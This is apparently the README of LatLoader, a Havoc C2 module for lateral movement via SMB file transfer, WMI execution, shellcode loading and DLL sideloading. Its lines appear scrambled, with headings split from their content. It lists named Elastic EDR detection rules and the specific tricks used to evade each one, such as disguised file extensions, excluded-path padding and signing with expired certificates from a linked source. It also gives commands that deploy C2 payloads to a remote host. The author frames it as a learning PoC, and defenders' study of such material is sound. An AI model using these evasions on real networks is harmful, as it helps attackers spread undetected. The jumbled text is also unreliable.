 
![exec](https://github.com/icyguider/LatLoader/assets/79864975/90d569fc-ee15-4ed4-9ad5-d984454ea597)
![help](https://github.com/icyguider/LatLoader/assets/79864975/340d7cf5-2307-48ef-9e7c-fcd8f7cb103b)
![load](https://github.com/icyguider/LatLoader/assets/79864975/ea475419-ca1a-4786-b40c-6716638e1e5b)
![rupload](https://github.com/icyguider/LatLoader/assets/79864975/9f5b6315-7414-4c09-a5e1-68900ad58f4a)
![sideload](https://github.com/icyguider/LatLoader/assets/79864975/8af2aa2e-7ddb-496d-8b34-dc67860b38c8)
![xorload](https://github.com/icyguider/LatLoader/assets/79864975/384c9c70-aeeb-4b5d-a261-3a5724468009)
# LatLoader
## Dependencies/Basic Usage
## Elastic EDR Rule Evasions
## Greetz/Credit
## Notes
## Standalone binaries
## Usage/Subcommands
#### [Malicious Behavior Detection Alert: Execution of a File Dropped from SMB](https://github.com/elastic/protections-artifacts/blob/main/behavior/rules/lateral_movement_execution_of_a_file_dropped_from_smb.toml)
#### [Malicious Behavior Detection Alert: ImageLoad of a File dropped via SMB](https://github.com/elastic/protections-artifacts/blob/main/behavior/rules/lateral_movement_imageload_of_a_file_dropped_via_smb.toml)
#### [Malicious Behavior Detection Alert: Unsigned File Execution via Network Logon](https://github.com/elastic/protections-artifacts/blob/main/behavior/rules/lateral_movement_unsigned_file_execution_via_network_logon.toml)
#### [Malicious Behavior Prevention Alert: DLL Side Loading via a Copied Microsoft Executable](https://github.com/elastic/protections-artifacts/blob/main/behavior/rules/defense_evasion_dll_side_loading_via_a_copied_microsoft_executable.toml)
#### [Malicious Behavior Prevention Alert: VirtualProtect API Call from an Unsigned DLL](https://github.com/elastic/protections-artifacts/blob/main/behavior/rules/defense_evasion_virtualprotect_api_call_from_an_unsigned_dll.toml)
#### [Potential Lateral Tool Transfer via SMB Share](https://www.elastic.co/guide/en/security/current/potential-lateral-tool-transfer-via-smb-share.html)
#### [Remote Execution via File Shares](https://www.elastic.co/guide/en/security/current/remote-execution-via-file-shares.html)
#### [WMI Incoming Lateral Movement](https://www.elastic.co/guide/en/security/current/wmi-incoming-lateral-movement.html)
* If you are looking to achieve 0 alerts by Elastic when using `sideload`, you must account for Elastic's in memory detection [yara rule](https://github.com/elastic/protections-artifacts/blob/main/yara/rules/Windows_Trojan_Havoc.yar) for Havoc. This can be bypassed by modifying the Havoc framework itself with relative ease. I will leave the specifics of this process to the reader. ;)
* The default DLL sideloader utilizes the [HWSyscalls](https://github.com/ShorSec/HWSyscalls) project to perform a single `NtAllocateVirtualMemory` call using hardware breakpoints. This is not effective against any EDRs that rely on kernel callbacks for detecting winapi usage (Elastic, MDE, etc). However, I have included it as a PoC to demonstrate how it could be used against other EDRs which still rely on hooking. If you would like to use a version of the sideloader without HWBP syscalls, simply modify the makefile to compile `sideloader.c` instead of `sideloader.cpp`.
* This project is a PoC meant for learning purposes. Never use this in a real world environment. It was not designed for that and you will most definitely get burned unless you heavily modify the tool.
* [@C5spider](https://twitter.com/C5pider), [@s4ntiago_p](https://twitter.com/s4ntiago_p), and all other contributors to the [Havoc C2 Framework](https://github.com/HavocFramework/Havoc).
* [@Yaxser](https://twitter.com/Yas_o_h) for their [wmiexec BOF](https://github.com/Yaxser/CobaltStrike-BOF/blob/master/WMI%20Lateral%20Movement/WMI-ProcessCreate.cpp) which was lightly modified for use in this project.
* [@dec0ne](https://twitter.com/dec0ne) and [@Idov31](https://twitter.com/Idov31) for [HWSyscalls](https://github.com/ShorSec/HWSyscalls) utilized by the DLL sideloader.
* [Elastic](https://www.elastic.co) for allowing anyone to test their EDR for free and for making their default rules public.
* [Microsoft's Online Documentation](https://learn.microsoft.com) for teaching me all about windows programming and internals. They also provide excellent example code that I and others gladly take and adopt for our offensive needs.
**Bypass:** This rule was bypassed by creating the file via SMB with a safe extension like .png, and then making a copy of the file with it's real extension via WMI.
**Bypass:** This rule was bypassed by executing the transferred file using cmd.exe /c. This evades the rule because the file is not executed directly, but instead by a trusted binary.
**Bypass:** This rule was bypassed by including a path in our command that the rule excludes. As seen in the query, `C:\\Windows\\CCMCache\\*` is one of these directories, which was appended to each wmi command like so: `&& echo --path C:\\Windows\\CCMCache\\cache`
**Bypass:** This rule was bypassed by performing DLL sideloading.
**Bypass:** This rule was bypassed by signing the DLL sideloader with an expired cert. The expired cert was obtained from here: https://github.com/utoni/PastDSE/tree/main/certs
**Description:** Identifies processes executed via Windows Management Instrumentation (WMI) on a remote host. This could be indicative of adversary lateral movement, but could be noisy if administrators use WMI to remotely manage hosts.
**Description:** Identifies the creation or change of a Windows executable file over network shares. Adversaries may transfer tools or other files between systems in a compromised environment.
**Description:** Identifies the execution of a file that was created by the virtual system process and subsequently executed. This may indicate lateral movement via network file shares.
**Description:** Identifies the execution of a file that was created by the virtual system process. This may indicate lateral movement via network file shares.
**Description:** Identifies the execution of a recently created file that is unsigned or untrusted and from a remote network logon. This may indicate lateral movement via remote services.
**Description:** Identifies the load of an unsigned or untrusted DLL by a trusted binary followed by calling VirtualProtect API to change memory permission to execute or write. This may indicate execution via DLL sideloading to perform code injection.
**Description:** Identifies the transfer of a library via SMB followed by loading it into commonly DLL proxy execution binaries such as rundll32, regsvr32 and shared services via svchost.exe. This may indicate an attempt to remotely execute malicious code.
**Description:** Identifies when a Microsoft signed binary is copied to a directory and shortly followed by the loading of an unsigned DLL from the same directory. Adversaries may opt for moving Microsoft signed binaries to a random directory and use them as a host for malicious DLL sideloading during the installation phase.
**UPDATE: 10 days after the release of this tool, Elastic updated some of its rules to address the bypasses demonstrated by this project. Please see the [Oct 17th commit](https://github.com/elastic/protections-artifacts/commit/7310e500a6178b6d9f5c189f9ac8de155037836f) in their [protections-artifacts](https://github.com/elastic/protections-artifacts) repo to view the changes made to applicable rules (Like [this one](https://github.com/elastic/protections-artifacts/commit/7310e500a6178b6d9f5c189f9ac8de155037836f#diff-a546f8d6214e32d67e92e76125daa6cb3a4d516616c79f12ccdadffd9c3c2b5b) for example).** 
----
.\wmiexec.exe dc1 'cmd.exe /c whoami > c:\test.txt'
.\writefile.exe .\test.txt \\dc1\C$\poc.txt
Finally, the `sideload` subcommand will perform lateral movement by DLL sideloading a simple shellcode loader. Actions were also taken to evade various elastic EDR rules.
I have also provided standalone versions of the BOFs used in this project. These could be useful if you are unfamiliar with BOF development and would like to learn by comparing a normal program to it's BOF counterpart.
LatLoader exec dc1 "cmd.exe /c whoami > C:\poc.txt"
LatLoader is a PoC module to demonstrate automated lateral movement with the Havoc C2 framework. The main purpose of this project is to help others learn BOF and Havoc module development. This project can also help others understand basic EDR rule evasions, particularly when performing lateral movement.
LatLoader load dc1 /root/test.exe
LatLoader rupload dc1 /root/demon.x64.exe C:\Windows\Temp\test.exe
LatLoader sideload dc1 /root/demon.x64.bin
LatLoader xorload dc1 /root/demon.x64.bin
The LatLoader module contains 5 different subcommands. The first two, `rupload` and `exec`, serve as the main mechanism for executing the provided BOFs. The 3 other subcommands (`load`, `xorload`, & `sideload`) combine the previous two in order to perform automated lateral movement.
The `exec` subcommand can be used to execute a command on a remote system via WMI using the `wmiBOF.cpp` BOF like so:
The `load` subcommand combines the two subcommands above to transfer a specified exe to the remote host via SMB and execute it over WMI:
The `rupload` command can be used to upload a local file to a remote system via SMB using the `writefileBOF.c` BOF like so:
The `sideload` subcommand is the full-featured PoC of this module. It will attempt to perform lateral movement via DLL sideloading while evading default Elastic EDR rules. For a full list of every rule evaded by this module and how it was done, please see the below section titled [Elastic EDR Rule Evasions](https://github.com/icyguider/LatLoader#elastic-edr-rule-evasions).
The `xorload` subcommand will perform lateral movement using a simple shellcode loader. This is designed to bypass basic AV detections:
The exe can then be transferred to the target and executed like so, providing arguments via the cli:
The following is a list of various Elastic EDR rules that could alert when performing lateral movement. I have provided what steps were taken to evade each rule. All evasions described here were implemented in the `sideload` subcommand to demonstrate how they can be combined to create a fully functional PoC.
This module was designed to work on Linux systems with `mingw-w64` installed. Additionally, you must have [osslsigncode](https://github.com/mtrojnar/osslsigncode) installed to provide cert signing for the DLL utilized by the `sideload` subcommand. Once all dependencies are installed, simply type `make` and then load the module into Havoc using the script manager. To view help in Havoc, run `help LatLoader`. To view help for subcommands, run `help LatLoader [subcommand]`.
Video demo w/ Elastic EDR: https://youtu.be/W0PZZPpsO6U
```
`wmiexec.cpp` is the standalone binary for command execution via WMI. It can be compiled with mingw like so:
`writefile.c` is the standalone binary for file transfer via SMB. It can be compiled with mingw like so:
x86_64-w64-mingw32-g++ wmiexec.cpp -I include -l oleaut32 -l ole32 -l wbemuuid -w -static -o /share/wmiexec.exe
x86_64-w64-mingw32-gcc writefile.c -w -static -o /share/writefile.exe
